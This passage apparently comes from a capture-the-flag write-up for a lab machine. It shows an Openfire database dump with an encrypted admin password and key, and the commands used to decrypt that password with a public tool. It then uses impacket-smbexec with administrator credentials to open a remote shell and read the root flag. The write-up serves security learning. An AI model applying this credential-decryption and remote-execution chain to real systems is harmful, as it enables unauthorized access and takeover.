CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
...
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
...
```

In `conf/security.xml` we also find this:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!--
  This file stores security-related properties needed by Openfire.
  You may edit this file to manage encrypted properties and 
  encryption configuration value. Note however that you should not
  edit this file while Openfire is running, or it may be overwritten.
  
  It is important to note that Openfire will store encrypted property
  values securely "at rest" (e.g. in the database or XML), but the 
  values will be managed as clear text strings in memory at runtime for
  interoperability and performance reasons. Encrypted property values
  are not visible via the Openfire console, but they may be edited or 
  deleted as needed.
-->
<security> 
  <encrypt> 
    <!-- This can be set to "AES" or "Blowfish" (default) at setup time -->  
    <algorithm>Blowfish</algorithm>  
    <key> 
...
</security>
```

Blowfish uses a single encryption key to both encrypt and decrypt data, so we can try to find the admin's password.

We will be using [c0rdis' tool](https://github.com/c0rdis/openfire_decrypt) to decrypt the password.\
For the key, I saw on [shakaw's decryptor](https://github.com/shakaw/openfire-password-decrypt) later that it should be taken from `INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)`.

```bash
$ git clone https://github.com/c0rdis/openfire_decrypt.git
$ cd openfire_decrypt
$ javac OpenFireDecryptPass.java 
$ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
```

And now we have the admin password!

## Getting the flag

I tried changing user to admin, but anything I tried said I didn't have the authority.

Looking some old notes, I found [this article from HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb), which includes [this section about executing commands](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#execute-commands).

Using `crackmapexec` didn't seem to work, so I tried using `impacket-smbexec`:
```bash
$ impacket-smbexec DOMAIN/administrator:'ThisPasswordShouldDo!@'@10.10.11.16
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>more C:\Users\Administrator\Desktop\root.txt
```

And we finally get the root flag!
